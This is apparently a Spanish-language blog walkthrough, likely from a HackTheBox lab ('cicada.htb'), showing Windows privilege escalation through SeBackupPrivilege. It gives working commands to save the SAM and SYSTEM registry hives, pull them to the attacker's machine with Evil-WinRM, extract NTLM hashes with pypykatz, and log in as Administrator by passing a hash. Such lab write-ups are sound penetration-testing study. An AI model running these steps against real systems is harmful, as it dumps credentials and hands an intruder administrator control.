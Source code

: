 ```yaml
---
title: Windows Privilege Escalation SeBackupPrivilege
author: Fuzz3d
date: 2024-10-17
categories: [Blogging, Web]
tags: [hacking, windows]
render_with_liquid: false
---
```


## **¿Qué es SeBackupPrivilege?**

SeBackupPrivilege es un privilegio de Windows que se utiliza para realizar copias de seguridad de archivos y directorios. Cuando un usuario o proceso tiene este privilegio, puede leer y escribir archivos y directorios sin necesidad de tener permisos de lectura o escritura en los mismos

## **Explotando este privilegio**

Ahora que ya sabemos de que trata este privilegio vamos a utilizar esto para nuestra ventaja. Para empezar, iremos al directorio C:\ y luego crearemos un directorio Temp. También podemos ir a un directorio con privilegios de lectura y escritura si el atacante quiere ser astuto. Luego cambiamos el directorio a Temp. Aquí usamos nuestro SeBackupPrivilege para leer el archivo SAM y guardar una copia del mismo. Del mismo modo, leemos el archivo SYSTEM y guardamos una copia del mismo.

```shell
cd c:\

mkdir Temp

reg save hklm\sam c:\Temp\sam

reg save hklm\system c:\Temp\system
```

![alt text](../assets/img/241016_22h00m07s_screenshot.png)

Esto significa que ahora nuestro Directorio Temp debe tener un archivo SAM y un archivo SYSTEM. Evil-WinRM tiene una opcion que nos permite transferir los archivos de la maquina victima a nuestra maquina host, lo que haremos es descargar ambos archivos.

> **Fichero SAM (Security Accounts Manager):**
> El fichero SAM es un fichero de base de datos que almacena información sobre las cuentas de usuario y grupo del sistema

> **Fichero SYSTEM:**
> El fichero SYSTEM es un fichero de configuración que almacena información sobre la configuración del sistema operativo

```shell
download sam

download system
```

![alt text](../assets/img/241016_22h09m19s_screenshot.png)

Ahora, podemos extraer los secretos desde el archivo SAM y SYSTEM usando pypykatz, un extractor de contraseñas y secretos de la memoria de Windows.

```bash
pypykatz registry --sam sam system
```

![!\[\[Pasted image 20241016221220.png\]\]](../assets/img/241016_22h12m14s_screenshot.png)

Tan pronto como el comando se ejecuta, podemos ver en la siguiente demostración que hemos extraído con éxito los hashes NTLM de la cuenta de administrador y otros usuarios también.

Ahora, podemos usar el Hash NTLM del usuario Administrator para obtener acceso a la máquina destino como usuario administrador. De nuevo utilizamos Evil-WinRM para hacer esto. 

```shell
evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![!\[\[Pasted image 20241016221500.png\]\]](../assets/img/241016_22h14m51s_screenshot.png)

